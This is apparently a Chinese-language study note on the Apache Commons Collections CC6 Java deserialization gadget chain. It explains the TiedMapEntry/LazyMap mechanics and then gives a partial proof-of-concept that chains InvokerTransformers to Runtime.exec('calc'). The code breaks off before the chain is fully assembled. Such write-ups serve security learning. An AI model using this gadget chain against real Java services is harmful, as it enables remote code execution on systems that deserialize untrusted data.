 TiedMapEntry在初始化的时候就可以放入lazymap了,因为我们最终要调用到的是TiedMapEntry的getValue方法,它的return返回内容中的map就是初始传入的

![image-20231217150123316](H:/Typora%E7%AC%94%E8%AE%B0/%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0/javasecurityRe0/CC1系-反射调用Runtime/img/image-20231217150123316.png)



然后就是后续的hashmap设置以及为什么lazymap要提前移除aaa?

当我们HashMap执行put放入tiedMapeEntry的时候,会提前触发hashcode方法,导致链子提前被执行,但是由于我们在lazymap以开始并没有存入chainedTransformer,而是存入一个普通的hashmap,导致并没有触发链子

然后为什么要remove掉lazymap中的aaa值?当HashMap执行put方法,之前的TiedMapEntry由于初始化时构造了 (lazymap,"aaa")键值对,put方法提前调用到lazy的get方法,由于此时lazy并没有写入aaa值,所以会进入if判断,设置一个aaa值,如果我们不去除,之后的readObject正常调用就无法进入if内容触发链子了,也就是直接return map.get

![image-20231217151723547](H:/Typora%E7%AC%94%E8%AE%B0/%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0/javasecurityRe0/CC1系-反射调用Runtime/img/image-20231217151723547.png)



最后就是通过反射将chainedTransformer写入lazy了

```java
  Class c=LazyMap.class;
        Field factoryField=c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazymap,chainedTransformer);
```



最终POC如下

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6end {
    public static void main(String[] args) throws Exception {

        //======================runtime的加载
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> map=new HashMap<>();
        /// 先不传入chainedTransformer，之后等hashmap的put方法执行完毕之后再存入，而这里存入ConstantTransformer，是因为后续hashcode的put方法触发链子的时候，最终调用transform方法不会有其他的代码执行影响流程
        Map<Object,Object> lazymap = LazyMap.decorate(map,new ConstantTransformer(1));
        //==========================================================================


        //===========================初始化 TiedMapEntry以及hashmap
```